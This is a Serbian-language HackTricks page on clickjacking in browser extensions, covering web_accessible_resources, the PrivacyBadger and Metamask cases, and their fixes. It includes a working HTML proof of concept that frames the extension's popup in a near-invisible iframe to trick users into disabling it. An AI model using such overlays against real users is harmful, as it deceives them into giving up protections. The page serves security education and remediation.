 # BrowExt - ClickJacking

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Ova stranica će iskoristiti ranjivost ClickJacking-a u Browser ekstenziji.\
Ako ne znate šta je ClickJacking, proverite:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Ekstenzije sadrže datoteku **`manifest.json`** i ta JSON datoteka ima polje `web_accessible_resources`. Evo šta [Chrome dokumentacija](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) kaže o tome:

> Ovi resursi bi bili dostupni na veb stranici putem URL-a **`chrome-extension://[PACKAGE ID]/[PATH]`**, koji se može generisati pomoću **`extension.getURL metode`**. Resursi na dozvoljenoj listi se serviraju sa odgovarajućim CORS zaglavljima, tako da su dostupni putem mehanizama poput XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

**`web_accessible_resources`** u browser ekstenziji nisu dostupni samo putem veba; takođe funkcionišu sa inherentnim privilegijama ekstenzije. To znači da imaju mogućnost da:

* Promene stanje ekstenzije
* Učitaju dodatne resurse
* Interaguju sa pregledačem do određene mere

Međutim, ova funkcija predstavlja sigurnosni rizik. Ako resurs unutar **`web_accessible_resources`** ima značajnu funkcionalnost, napadač bi potencijalno mogao da ugradi ovaj resurs u spoljnu veb stranicu. Nesumnjivi korisnici koji posete ovu stranicu možda nehotice aktiviraju ovaj ugrađeni resurs. Takva aktivacija može dovesti do neželjenih posledica, zavisno od dozvola i sposobnosti resursa ekstenzije.

## Primer PrivacyBadger-a

U ekstenziji PrivacyBadger, identifikovana je ranjivost koja se odnosi na `skin/` direktorijum koji je deklarisan kao `web_accessible_resources` na sledeći način (Proverite originalni [blog post](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Ova konfiguracija dovela je do potencijalnog sigurnosnog problema. Konkretno, fajl `skin/popup.html`, koji se prikazuje prilikom interakcije sa ikonicom PrivacyBadger u pregledaču, mogao bi biti ugrađen unutar `iframe`-a. Ovo ugrađivanje moglo bi biti iskorišćeno da bi se korisnici prevarili da nenamerno kliknu na "Onemogući PrivacyBadger za ovaj sajt". Takva akcija ugrozila bi privatnost korisnika onemogućavanjem zaštite PrivacyBadger-a i potencijalno izložila korisnika povećanom praćenju. Vizuelna demonstracija ovog eksploata može se pogledati u primeru ClickJacking videa dostupnom na [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Da bi se rešila ova ranjivost, implementirano je jednostavno rešenje: uklanjanje `/skin/*` sa liste `web_accessible_resources`. Ova promena efikasno je umanjila rizik osiguravajući da sadržaj direktorijuma `skin/` ne može biti pristupljen ili manipulisan putem web-pristupačnih resursa.

Popravka je bila jednostavna: **ukloniti `/skin/*` iz `web_accessible_resources` liste**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Primer sa Metamaskom

[**Blog post o ClickJacking-u u Metamasku možete pronaći ovde**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). U ovom slučaju, Metamask je popravio ranjivost proverom da li je korišćeni protokol za pristup bio **`https:`** ili **`http:`** (a ne **`chrome:`** na primer):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Još jedan rešen ClickJacking** u Metamask ekstenziji bio je taj što su korisnici mogli **kliknuti da dodaju na belu listu** kada je stranica bila sumnjiva da je fising zbog `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Pošto je ta stranica bila ranjiva na ClickJacking, napadač bi mogao da je zloupotrebi prikazujući nešto normalno kako bi žrtva kliknula da je doda na belu listu ne primećujući, a zatim se vratila na stranicu za ribarenje koja će biti dodata na belu listu.

## Primer sa Steam Inventory Helperom

Proverite sledeću stranicu da vidite kako je **XSS** u ekstenziji pregledača povezan sa ranjivošću **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Reference

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

